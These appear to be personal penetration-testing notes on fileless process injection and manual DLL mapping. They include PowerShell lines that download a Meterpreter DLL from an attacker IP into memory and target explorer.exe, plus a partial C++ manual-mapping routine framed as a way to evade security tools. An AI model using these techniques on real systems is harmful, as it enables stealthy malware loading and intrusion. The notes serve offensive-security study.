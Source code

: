 This method provides a powerful way to inject code into a remote process without touching the disk, making it an advanced but stealthy technique for testing or potentially malicious activities.

- Example, but the methods are older
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id
```
- more current version
```powershell
$response = Invoke-WebRequest -Uri "http://192.168.1.113/met.dll" -UseBasicParsing
$procid = (Get-Process -Name explorer).Id
```
- $response.Content is the byte array
- couldn't get the example to work (maybe machine needs a reboot?)


Manual mapping and obfuscation are advanced techniques used to inject code into a process while minimizing the chances of detection by security tools. These techniques are often used in offensive security, including penetration testing and malware development. Here’s an overview of how these techniques work and how they can be implemented.

### **1. Manual Mapping**

Manual mapping involves loading a DLL or other executable code into the memory of a process without relying on the standard Windows APIs like `LoadLibrary`. Instead, the code is manually parsed, relocated, and linked within the target process’s memory space.

#### **Steps Involved in Manual Mapping**

1. **Allocate Memory in the Target Process**: Similar to traditional injection, you need to allocate space in the target process for the DLL or shellcode.

2. **Parse the PE Header**: The Portable Executable (PE) header of the DLL contains information about how the sections of the DLL should be loaded into memory. This includes the `.text`, `.data`, and `.rdata` sections, among others.

3. **Relocate Sections**: Copy the relevant sections from the DLL into the allocated memory. If the DLL’s preferred base address is not available, you’ll need to adjust the memory addresses (relocation).

4. **Resolve Imports**: Manually resolve the DLL’s imported functions by locating their addresses in the process’s loaded modules (like `kernel32.dll`).

5. **Execute the Entry Point**: Finally, execute the DLL’s entry point (usually the `DllMain` function) to initialize the DLL.

#### **Example Code for Manual Mapping (C/C++)**

```cpp
#include <Windows.h>

bool ManualMap(HANDLE hProcess, BYTE* pSrcData) {
    // Parse the DOS header
    IMAGE_DOS_HEADER* pDosHeader = (IMAGE_DOS_HEADER*)pSrcData;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
        return false;

    // Parse the NT headers
    IMAGE_NT_HEADERS* pNtHeaders = (IMAGE_NT_HEADERS*)(pSrcData + pDosHeader->e_lfanew);
    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE)
        return false;

    // Allocate memory in the target process for the entire image
    LPVOID pTargetBase = VirtualAllocEx(hProcess, (LPVOID)pNtHeaders->OptionalHeader.ImageBase,
        pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pTargetBase)
        return false;

```